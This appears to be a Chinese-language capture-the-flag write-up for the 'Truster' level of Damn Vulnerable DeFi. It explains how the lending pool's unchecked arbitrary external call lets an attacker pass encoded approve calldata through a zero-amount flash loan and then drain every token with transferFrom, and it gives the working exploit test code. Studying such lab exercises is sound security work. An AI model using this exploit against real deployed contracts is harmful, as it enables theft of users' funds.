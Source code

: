 # Solution

## contract

`TrusterLenderPool`合约提供针对DVT token的闪电贷方法
```solidity
    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
```

- 首先计算当前合约的dvt token余额`balanceBefore`
- 乐观转账amount额度的dvt token给borrower
- 执行传入的target合约方法，通过calldata方法调用
- 判断当前合约的dvt余额是否比之前少，并revert

`target.functionCall(data);` 这一段执行外部合约的方法是攻击的目标

## script

- 部署dvt token合约
- 部署`TrusterLenderPool`合约
- 向合约转入`TOKENS_IN_POOL`个dvt token
- 执行攻击脚本
- 校验攻击后合约的dvt token余额为0，用户获取全部`TOKENS_IN_POOL`个dvt token

## code

通过两笔交易的攻击方法：
- 首先调用合约的闪电贷方法，额度为0，calldata为编码好的dvt `approve`方法
- 执行闪电贷交易成功后，再直接调用合约的`transferFrom`方法将合约内的token全部转到用户地址下

```javascript
    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const calldata = token.interface.encodeFunctionData("approve", [player.address, TOKENS_IN_POOL])
        await pool.connect(player).flashLoan(0,player.address, token.address, calldata)
        await token.connect(player).transferFrom(pool.address, player.address, TOKENS_IN_POOL)
    });
```